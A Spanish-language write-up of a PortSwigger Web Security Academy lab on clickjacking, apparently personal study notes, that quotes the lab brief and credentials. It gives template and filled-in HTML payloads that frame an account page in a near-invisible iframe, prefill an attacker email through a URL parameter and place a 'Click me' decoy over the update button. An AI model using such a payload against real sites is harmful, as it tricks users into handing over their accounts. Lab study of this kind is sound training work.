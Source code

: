 # 02 Lab: Clickjacking with form input data prefilled from a URL parameter

```jsx
This lab extends the basic clickjacking example in Lab: Basic clickjacking with CSRF token protection. The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button.

To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: wiener:peter
```

Debemos crear un enlace, con el fondo oculto, en donde enviemos una petición por GET, esta petición sera el cambio de correo, pero al haber un token csrf, deberá ser enviado con al información del usuario

```jsx
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

Ahora vamos a adaptarlo con nuestros datos, acorde al ejercicio anterior

```jsx
<style>
    iframe {
        position:relative;
				width:700px;
        height: 700px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:70px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a810019038734a78383551b007600b1.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

![image.png](02%20Lab%20Clickjacking%20with%20form%20input%20data%20prefilled%20a98d562fe21e4af5b801b07e21f4c874/image.png)

![image.png](02%20Lab%20Clickjacking%20with%20form%20input%20data%20prefilled%20a98d562fe21e4af5b801b07e21f4c874/image%201.png)